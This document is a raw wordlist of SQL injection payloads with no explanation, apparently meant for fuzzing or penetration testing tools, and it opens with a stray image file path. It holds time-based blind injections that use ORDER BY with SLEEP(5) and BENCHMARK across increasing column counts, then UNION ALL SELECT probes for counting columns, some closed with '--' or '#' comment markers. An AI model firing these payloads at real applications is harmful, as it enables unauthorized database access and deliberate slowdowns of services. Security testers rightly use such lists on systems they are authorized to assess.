  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30-- 
 UNION ALL SELECT 1
 UNION ALL SELECT 1,2
 UNION ALL SELECT 1,2,3
 UNION ALL SELECT 1,2,3,4
 UNION ALL SELECT 1,2,3,4,5
 UNION ALL SELECT 1,2,3,4,5,6
 UNION ALL SELECT 1,2,3,4,5,6,7
 UNION ALL SELECT 1,2,3,4,5,6,7,8
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
 UNION ALL SELECT 1#
 UNION ALL SELECT 1,2#
 UNION ALL SELECT 1,2,3#
 UNION ALL SELECT 1,2,3,4#
 UNION ALL SELECT 1,2,3,4,5#
 UNION ALL SELECT 1,2,3,4,5,6#
 UNION ALL SELECT 1,2,3,4,5,6,7#